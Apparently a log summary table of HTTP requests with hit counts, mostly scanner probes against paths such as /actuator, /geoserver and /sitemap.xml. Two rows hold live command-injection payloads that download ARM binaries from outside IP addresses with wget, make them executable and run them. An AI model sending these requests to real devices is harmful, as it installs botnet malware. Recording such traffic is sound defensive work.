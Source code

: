 |  17 |                     7 | GET /sitemap.xml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                        |
|  18 |                     7 | \x03\x00\x00/*\xE0\x00\x00\x00\x00\x00Cookie: mstshash=Administr                                                                                                                                                                                                                                                                                                                                                 |
|  19 |                     6 | GET /actuator/health HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                    |
|  20 |                     6 | CONNECT 185.64.105.8:80 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                 |
|  21 |                     6 | GET /admin/assets/js/views/login.js HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                     |
|  22 |                     6 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F178.162.172.219%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                     |
|  23 |                     6 | \x04\x01\x00P\xB9@i\x08\x00                                                                                                                                                                                                                                                                                                                                                                                      |
|  24 |                     6 | GET /geoserver/web/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                     |
|  25 |                     6 | GET /portal/redlion HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                     |
|  26 |                     6 | CONNECT hotmail-com.olc.protection.outlook.com:25 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                       |
|  27 |                     6 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                                                                                                                                                                                                                    |
|  28 |                     5 | GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                     |
|  29 |                     5 | GET /actuator/gateway/routes HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                            |